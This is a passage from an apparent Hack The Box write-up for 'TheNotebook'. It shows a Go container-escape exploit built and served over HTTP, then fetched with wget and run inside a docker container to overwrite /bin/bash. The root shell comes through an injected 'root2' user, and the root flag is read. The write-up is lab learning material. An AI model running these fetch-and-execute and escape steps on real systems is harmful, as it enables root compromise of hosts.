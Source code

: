```bash
fmt.Println("[+] Overwritten /bin/bash successfully")
...

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ go build privesc.go

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ sudo python3 -m http.server 80

[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

The exploit was downloaded inside the docker container and executed:
```bash
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
root@719a30d9c793:/opt/webapp# wget 10.10.14.24/privesc
--2021-05-01 11:24:09--  http://10.10.14.24/privesc
...
root@719a30d9c793:/opt/webapp# chmod +x privesc
root@719a30d9c793:/opt/webapp# ./privesc
[+] Overwritten /bin/bash successfully
 < exploit paused >
```

From another SSH session the exploit was then triggered:<br>

*Session 2:*
```bash
┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/loot]
└─$ ssh noah@10.10.10.230 -i noah.key
...
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
No help topic for '/bin/bash'
```

*Session 1:*
```bash
...
[+] Overwritten /bin/bash successfully
 < exploit paused >
[+] Found the PID: 34
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc0000a8180}
```

Finally it was escalated to root switching to the injected `root2` user:
```bash
noah@thenotebook:~$ su root2
Password: evil
root@thenotebook:/home/noah# id && hostname && cat /root/root.txt && ifconfig -a
uid=0(root) gid=0(root) groups=0(root)
thenotebook
2328e98b072c67c6d418ae24d00523d3
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:d6:10:3f:8a  txqueuelen 0  (Ethernet)
        RX packets 12886  bytes 699043 (699.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 19288  bytes 32590700 (32.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.230  netmask 255.255.255.0  broadcast 10.10.10.255
        ether 00:50:56:b9:d5:cf  txqueuelen 1000  (Ethernet)
        RX packets 39715  bytes 36782225 (36.7 MB)
        RX errors 0  dropped 171  overruns 0  frame 0
```